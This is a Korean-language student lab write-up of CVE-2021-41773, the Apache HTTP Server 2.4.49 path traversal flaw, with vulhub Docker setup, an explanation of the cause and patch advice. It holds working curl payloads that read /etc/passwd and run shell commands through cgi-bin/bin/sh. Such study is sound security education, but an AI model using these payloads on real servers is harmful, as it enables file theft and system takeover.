





# CVE-2021-41773 | Apache HTTP Server 2.4.49 Path Traversal 취약점

> 화이트햇 스쿨 3기 (20반) - [김혜지 (@hyeroro)](https://github.com/hyeroro)

<br/>

## 취약점 개요

- **CVE ID**: CVE-2021-41773
- **취약점 유형**: Path Traversal(경로 탐색)
- **CVSS 점수**: 7.5 (High)
- **영향 받는 버전**: Apache HTTP Server 2.4.49
- **발견 날짜**: 2021년 10월 4일
- **패치 버전**: Apache HTTP Server 2.4.50 또는 이후 버전

이 취약점은 Apache HTTP Server 2.4.49에서 경로 정규화가 제대로 처리되지 않아 발생합니다. 공격자는 URL 경로 탐색 시퀀스를 사용하여 웹 루트 디렉토리 외부의 파일에 접근하거나 CGI 스크립트를 통해 명령을 실행할 수 있습니다.

<br/>

## 환경 구성
### 사용한 도구
- OS: Ubuntu 20.04 LTS
- Docker 버전: 28.0.1
- Docker Compose 버전: v2.33.1-desktop.1

### 명령어
```sh
# vulhub 저장소 클론
git clone https://github.com/vulhub/vulhub.git
cd vulhub/httpd/CVE-2021-41773

# Docker 컨테이너 실행
docker-compose up -d
```


<br/>

## PoC 및 결과

### 취약점 원인
Apache HTTP Server 2.4.49에서는 URL 경로 정규화 과정에서 결함이 있어 %2e (URL 인코딩된 점)을 사용한 디렉토리 탐색이 제대로 차단되지 않습니다. 이로 인해 공격자는 서버의 파일 시스템에 있는 임의의 파일에 접근할 수 있습니다.

### 경로 탐색 (Path Traversal) 테스트
/etc/passwd 파일 접근
```bash
curl -v —path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```


```bash
curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```



### 원격 코드 실행 (RCE) 테스트
```bash
curl -v --data "echo;id" 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```


```bash
curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; id"
```


<br/>

## 결론
  본 분석을 통해 Apache HTTP Server 2.4.49 버전에서 발생하는 CVE-2021-41773 취약점이 심각한 보안 위협임을 확인했습니다. 이 취약점은 경로 정규화 과정의 결함으로 인해 공격자가 URL 인코딩된 .(%2e) 문자를 사용하여 웹 루트 디렉토리 외부의 파일에 접근할 수 있도록 허용합니다.
  실제로 /etc/passwd와 같은 시스템 파일을 읽는 경로 탐색(Path Traversal) 공격이 성공함을 PoC를 통해 확인하였으며, 특히 CGI 스크립트가 활성화된 환경에서는 /bin/sh와 같은 쉘 실행 파일을 통해 임의의 시스템 명령어를 실행할 수 있는 원격 코드 실행(RCE)으로 이어질 수 있음을 입증했습니다. 이는 공격자가 서버의 민감한 정보에 접근하거나 시스템을 완전히 장악할 수 있음을 의미하며, 그 위험성이 매우 높습니다.
  따라서 Apache HTTP Server 2.4.49 버전을 운영 중인 관리자는 즉시 취약점이 해결된 Apache HTTP Server 2.4.50 또는 이후 버전으로 업데이트하는 것이 필수적입니다. 신속한 패치는 해당 취약점을 이용한 공격 시도를 차단하고 시스템의 보안을 강화하는 가장 효과적인 방법입니다. 또한, 웹 서버 설정에서 불필요한 CGI 실행 권한을 제한하고, 중요한 시스템 파일에 대한 접근 제어를 강화하는 등의 추가적인 보안 조치를 고려해야 합니다.
